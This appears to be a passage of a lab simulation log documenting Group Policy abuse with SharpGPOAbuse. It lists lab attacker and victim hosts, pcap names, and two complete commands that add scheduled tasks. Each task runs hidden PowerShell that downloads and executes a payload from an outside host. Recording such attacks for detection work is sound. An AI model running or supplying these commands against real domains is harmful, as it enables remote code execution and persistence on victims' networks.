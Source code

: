**Attacker**
- IP: 192.168.200.55
    - OS: Kali Linux

**Victim**
- IP: 192.168.200.11
    - OS: Windows Server 2019
    - OSVersion: 10.0.17763

- IP: 192.168.200.101
    - OS: Windows 10 Pro
    - OS Version: 19044.1706

**Tool**
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse/tree/d099eb9bc79059a2bfd25a30802bb73cf913d52f)


| Time  | Command   | Description   |
|:---------|:----|:----|
| 2022-12-20T08:09:34+00:00 | `execute-assembly /home/kali/Downloads/SharpGPOAbuse.exe --AddUserTask --TaskName "Evil Task" --Author F1\John --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://100.100.100.100:80/a'))\"" --GPOName "Finance User GPO"` | Add a ScheduledTask while there is already another ScheduledTask |

---


## [](#header-2)Simulation - Computer Scheduled Task
Pcap - 2023-01-06-gpoproject-sharpGPOAbuse-machine-scheduledtask.pcap

**Attacker**
- IP: 192.168.200.55
    - OS: Kali Linux

**Victim**
- IP: 192.168.200.11
    - OS: Windows Server 2019
    - OSVersion: 10.0.17763

- IP: 192.168.200.101
    - OS: Windows 10 Pro
    - OS Version: 19044.1706

**Tool**
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse/tree/d099eb9bc79059a2bfd25a30802bb73cf913d52f)


| Time  | Command   | Description   |
|:---------|:----|:----|
| 2023-01-06T08:12:55+00:00 | `execute-assembly /home/kali/Downloads/SharpGPOAbuse.exe --AddComputerTask --TaskName "Evil Task" --Author F1\John --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://100.100.100.100:80/a'))\"" --GPOName "Finance User GPO"` | Add a ScheduledTask while there is already another ScheduledTask |

---



## Logon / StartUp Script

